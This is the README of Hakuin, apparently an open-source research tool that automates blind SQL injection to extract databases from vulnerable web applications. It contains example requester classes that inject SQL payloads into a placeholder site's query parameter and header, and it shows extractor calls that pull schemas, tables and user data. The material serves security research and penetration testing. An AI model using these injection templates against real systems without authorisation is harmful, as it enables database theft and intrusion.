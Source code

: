 <p align="center">
    <img width="150" src="https://raw.githubusercontent.com/pruzko/hakuin/main/logo.png">
</p>

Hakuin is a Blind SQL Injection (BSQLI) optimization and automation framework and tool written in Python 3. It abstracts away the inference logic and allows users to easily and efficiently extract databases (DB) from vulnerable web applications. To speed up the process, Hakuin utilizes a variety of optimization methods, including pre-trained and adaptive language models, opportunistic guessing, parallelism, and more.

Hakuin has been presented at esteemed academic and industrial conferences:
- [BlackHat MEA, Riyadh](https://blackhatmea.com/session/hakuin-injecting-brain-blind-sql-injection), 2023
- [Hack in the Box, Phuket](https://conference.hitb.org/hitbsecconf2023hkt/session/hakuin-injecting-brains-into-blind-sql-injection/), 2023
- [IEEE S&P Workshop on Offsensive Technology (WOOT)](https://wootconference.org/papers/woot23-paper17.pdf), 2023

More information can be found in our [paper](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_WOOT_23.pdf) and [slides](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_HITB_23.pdf).


## Installation
To install Hakuin, simply run:
```
pip3 install hakuin
hk -h
```

Note that installation is optional and you can use Hakuin directly from the source codes:
```
git clone https://github.com/pruzko/hakuin
cd hakuin
python3 hk.py -h
```

## Command Line Tool
Hakuin ships with an intuitive tool called `hk` that offers most of Hakuin's features directly from the command line. To find out more, run:
```
hk -h
```

## Custom Scripting
Sometimes, BSQLI vunerabilities are too tricky to be exploited from the command line and require custom scripting. This is where Hakuin's Python package shines, giving you total control over the extraction process.

To customize exploitation, you need to instruct Hakuin on how to inject its queries. This is done by deriving a class from the `Requester` and overriding the `request` method. Aside from injecting queries, the method must determine whether they resolved to `True` or `False`.


##### Example 1 - Query Parameter Injection with Status-based Inference
```python
import aiohttp
from hakuin import Requester

class StatusRequester(Requester):
    async def request(self, ctx, query):
        r = await aiohttp.get(f'http://vuln.com/?n=XXX" OR ({query}) --')
        return r.status == 200
```

##### Example 2 - Header Injection with Content-based Inference
```python
class ContentRequester(Requester):
    async def request(self, ctx, query):
        headers = {'vulnerable-header': f'xxx" OR ({query}) --'}
        r = await aiohttp.get(f'http://vuln.com/', headers=headers)
        return 'found' in await r.text()
```

To start extracting data, use the `Extractor` class. It requires a `DBMS` object to contruct queries and a `Requester` object to inject them. Hakuin currently supports `SQLite`, `MySQL`, `PSQL` (PostgreSQL), `MSSQL` (SQL Server) DBMSs, and `OracleDB` but will soon include more options. If you wish to support another DBMS, implement the `DBMS` interface defined in `hakuin/dbms/DBMS.py`.

##### Example 1 - Extracting SQLite/MySQL/PSQL/MSSQL/OracleDB
```python
import asyncio
from hakuin import Extractor, Requester
from hakuin.dbms import SQLite, MySQL, PSQL, MSSQL, OracleDB

class StatusRequester(Requester):
    ...

async def main():
    ext = Extractor(requester=StatusRequester(), dbms=SQLite())
    ...

if __name__ == '__main__':
    asyncio.get_event_loop().run_until_complete(main())
```

Now that eveything is set, you can start extracting DB metadata.

##### Example 1 - Extracting DB Schemas/Tables/Columns
```python
# strategy:
#   'binary':   Use binary search
#   'model':    Use pre-trained model
schema_names = await ext.extract_schema_names(strategy='model')             # extracts schema names
tables = await ext.extract_table_names(strategy='model')                    # extracts table names
columns = await ext.extract_column_names(table='users', strategy='model')   # extracts column names
metadata = await ext.extract_meta(strategy='model')                         # extracts all table and column names
```

Once you know the DB structure, you can extract the actual content.

##### Example 1 - Extracting Column Data
```python
# text_strategy:    Use this strategy if the column is text
res = await ext.extract_column(table='users', column='address', text_strategy='dynamic')    # detects types and extracts columns

# strategy:
#   'binary':       Use binary search
#   'fivegram':     Use five-gram model
#   'unigram':      Use unigram model
#   'dynamic':      Dynamically identify the best strategy. This setting
#                   also enables opportunistic guessing.
res = await ext.extract_column_text(table='users', column='address', strategy='dynamic')    # extracts text columns
res = await ext.extract_column_int(table='users', column='id')                              # extracts int columns
res = await ext.extract_column_float(table='products', column='price')                      # extracts float columns
res = await ext.extract_column_blob(table='users', column='id')                             # extracts blob columns
```

More examples can be found in the `tests` directory.



## For Researchers
This repository is actively developed to fit the needs of security practitioners. Researchers looking to reproduce the experiments described in our paper should install the [frozen version](https://zenodo.org/record/7804243) as it contains the original code, experiment scripts, and an instruction manual for reproducing the results.


#### Cite Hakuin
```
@inproceedings{hakuin_bsqli,
  title={Hakuin: Optimizing Blind SQL Injection with Probabilistic Language Models},
  author={Pru{\v{z}}inec, Jakub and Nguyen, Quynh Anh},
  booktitle={2023 IEEE Security and Privacy Workshops (SPW)},
  pages={384--393},
  year={2023},
  organization={IEEE}
}
```
